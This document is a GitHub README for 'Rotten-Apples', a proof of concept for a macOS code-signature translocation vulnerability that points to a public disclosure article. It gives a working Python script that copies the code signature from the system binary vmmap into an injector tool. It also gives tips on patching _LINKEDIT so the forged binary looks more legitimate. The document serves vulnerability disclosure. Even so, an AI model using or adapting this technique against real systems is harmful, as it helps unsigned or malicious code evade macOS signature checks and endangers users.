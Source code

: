 # Rotten-Apples
macOS codesigning translocation vulnerability. (10.x -> 11.3.1, bandaid fix applied in 11.4)

Original article:
https://occamsec.com/rotten-apples-macos-codesigning-translocation-vulnerability/

This document serves to explain how to use the PoC described in the Rotten Apples vulnerability disclosure.

## The Target Binary
Compile it, sign it, run it once. Best done with XCode as it automates this process.

## The Victim Binary

Use the `lipo` command line tool to extract the x64 arch of a system binary of your choice. Make sure that the binary is a thin binary and not a fat binary with just one architecture, as LIEF has problems with the new universal file format.

### Binary Modification

```python
# -*- coding: utf8 -*-
# /usr/bin/python3
# RottenApples.py - macOS Code-Signature Translocation vulnerability
# 2021-09-21
# Dependencies: lief (pip3 install lief), x64 Mac
# License: WTFPL
import lief, sys

app = lief.parse('vmmap-x64')
f = open('vmmap-x64', 'rb')
f.seek(app.code_signature.data_offset)
signature = f.read(app.code_signature.data_size)
with open("code.sig", "wb+") as outfile:
    outfile.write(signature)
    outfile.close()
    print("Wrote detached signature.")

app2 = lief.parse('osxinj')
f2 = open('osxinj', 'r+b')
f2.seek(app2.code_signature.data_offset)
f2.write(signature)
f2.close()
```

The above snippet should be enough for transplanting the code signature into your target. In this example, we're transplanting the signature from vmmap into scen's osxinj.

Further steps to make the binary appear more appear more legitimate to the system can be accomplished by patching `_LINKEDIT` to mirror that of the victim binary. This will fix some of the CDHashes.
